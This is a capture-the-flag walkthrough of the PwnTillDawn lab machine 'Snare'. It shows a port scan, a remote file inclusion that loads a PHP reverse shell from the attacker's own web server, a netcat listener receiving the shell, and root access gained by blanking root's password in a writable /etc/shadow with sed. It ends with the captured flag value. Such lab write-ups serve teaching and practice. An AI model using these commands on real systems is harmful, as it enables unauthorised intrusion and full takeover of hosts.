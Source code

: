 ```yaml
---
layout: post
title: Pwn 18
date: 10-05-2025
categories: [pwntilldwn]
tags: [exfiltration, blind, commandinjection, wget]
image: "https://img.freepik.com/free-photo/portrait-young-student-education-day_23-2150980071.jpg"
---
```

> Hi kiddle lets move into hacking world.
{: .prompt-danger }
## Scanning

```jsx
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-10 11:45 EAT
Nmap scan report for 10.150.150.18
Host is up (0.15s latency).
Not shown: 97 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
8000/tcp open  http    SimpleHTTPServer 0.6 (Python 3.8.5)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.95 seconds

```

## Enumerating webpage

Because the file will be reflected and then will exploit but then it rename the file withsingle php so whont been seen so we add .php infront of .php file

## Vuln RFI

```jsx
mv rev.php rev.php.php

```

create server

```jsx
python3 -m http.server 8000

```

now you have to execute the payload with .php not .php.php because the service will remove .php

```jsx
http://10.150.150.18/index.php?page=http://10.66.66.102:8000/rev.php

```

```jsx
nc -lnvp 443 #killing have happy hacking kid
```

## Initial access

```jsx
                                                                                                                                                                                                                                               
┌──(cyberkid㉿cyberkiddle)-[~/…/redteam/pwntilldawn/21/Depixelization_poc]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.66.66.102] from (UNKNOWN) [10.150.150.18] 53038
bash: cannot set terminal process group (946): Inappropriate ioctl for device
bash: no job control in this shell
www-data@snare:/var/www/html$ 

```

## Priv esc phase

- Move the target linpease and find the user can write, execute and read /etc/shadow
    
    ## edit /etc/shadow
    
    empty pass
    
    - If the edit have successfully then you have to
        
        ```jsx
        python3 -c 'import pty; pty.spawn("/bin/bash")' #This will stablize the shell
        ```
        
    
    ```jsx
    root:!:20216:0:99999:7:::
    
    ```
    
    ```jsx
    sed 's/^root:[^:]*:/root::/' /etc/shadow > /tmp/shadow && cp /tmp/shadow /etc/shadow
    ```
    

## Root

```jsx
www-data@snare:/var/www/html$ su root
su root
Password: 
su: Authentication failure
www-data@snare:/var/www/html$ python3 -c 'import pty;pty.spawnb("/bin/bash")'
python3 -c 'import pty;pty.spawnb("/bin/bash")'
Traceback (most recent call last):
  File "<string>", line 1, in <module>
AttributeError: module 'pty' has no attribute 'spawnb'
www-data@snare:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@snare:/var/www/html$ su root
su root
root@snare:/var/www/html# cd /root
cd /root
root@snare:~# ls
ls
FLAG2.txt  snap
root@snare:~# cat FLAG2.txt
cat FLAG2.txt
2b0286a69b276189afe50517304963e5fa5982d9
root@snare:~# 

```
![Screenshot From 2025-05-10 11-33-42](https://github.com/user-attachments/assets/aa202e3f-ba51-4903-93db-240694d849e7)

> Hope full kiddle you have get hints
{: .prompt-hint }
